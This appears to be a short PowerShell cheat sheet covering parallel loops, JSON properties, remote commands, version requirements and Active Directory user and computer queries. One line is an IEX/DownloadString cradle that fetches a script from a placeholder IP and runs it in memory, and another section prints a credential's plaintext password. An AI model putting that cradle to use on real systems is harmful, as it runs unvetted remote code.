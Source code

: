 ### Execute a scriptblock once for each item in an array and get the results back as quickly as possible:
```
foreach -Parallel ( ) { }
```

### Rerence the embedded property `Quiz Name`:
```
$json = '{"Quiz Name":"PowerShell Assesment"}'
$obj = ConvertFrom-JSON $json
$obj.'Quiz Name'
```

### Test the existence of the C:\TEMP directory on the remote computer TEST01:
```
Invoke-Command -ComputerName TEST01 -ScriptBlock {Test-Path -Path 'C:\TEMP'}
```

### Ensure that the script will only run in PowerShell version 3.0 or higher, put the following at the top of the script:
```
#requires -Version 3.0
```

### Download file:
```
C:\Windows\system32> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10:80/file.ps1')"
```

## Active-Directory
```
Get-ADUser EXAMEUSERNAME -Properties *
Get-ADComputer EXACTCOMPUTERNAME -Properties *
```
## List all members of an OU (e.g. desktops)
Get-ADComputer -Filter * -SearchBase "OU=Desktops,OU=something,DC=domain,DC=com" | Select-Object -ExpandProperty Name

### Filter by name
```
 > Get-ADComputer -Filter {Name -Like "PARTIALHOSTNAMEHERE*"} | Format-Table Name, DistinguishedName
```
### Search in a different domain:
```
Get-ADComputer -Filter {(Name -Like "PARTIALNAME*") -And (OperatingSystem -Like "*Server*")} -SearchBase "DC=some,DC=thing,DC=com" -Server "some.thing.com" -Properties *
```
# Search in a different domain with different credentials:
```
$creds = Get-Credential "some.domain.com\some_user"
$creds.GetNetworkCredential().Username
the_user
$creds.GetNetworkCredential().Password
the_password
Get-ADComputer -Filter * -Credential $creds -SearchBase "OU=an_ou,OU=another_ou,DC
=some,DC=domain,DC=com" -Server "some.domain.com" | Select-Object -ExpandProperty Name
```